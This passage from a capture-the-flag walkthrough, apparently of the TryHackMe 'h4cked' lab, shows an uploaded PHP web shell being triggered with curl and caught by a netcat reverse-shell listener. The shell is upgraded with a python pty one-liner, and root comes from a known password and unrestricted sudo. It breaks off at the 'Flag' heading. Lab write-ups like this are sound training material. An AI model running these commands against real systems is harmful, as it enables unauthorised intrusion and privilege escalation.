 ~~~
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5491 Oct 17 13:24 shell.php
~~~

Then I started a listener and called the shell and now we have a shell. The first thing I did was spawning a TTY shell:

Called the shell:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/h4cked/files]
└─$ curl -s "http://$IP/shell.php"
~~~

Shell:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/h4cked/files]
└─$ rlwrap nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.9.1.25] from (UNKNOWN) [10.10.26.98] 34638
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 13:28:32 up 35 min,  0 users,  load average: 0.00, 0.00, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@wir3:/$
~~~

## Becoming Root

Now we neet to gain root access in order to obtain the flag. First I switched to user `jenny` with `987654321` as password and the ran `sudo -l` and could run all sudo commands on the machine:

~~~
www-data@wir3:/$ su jenny
Password: 987654321
jenny@wir3:/$ sudo -l
Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
~~~

I simply ran `sudo su` and became root:

~~~
jenny@wir3:/$ sudo su
root@wir3:/# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Flag
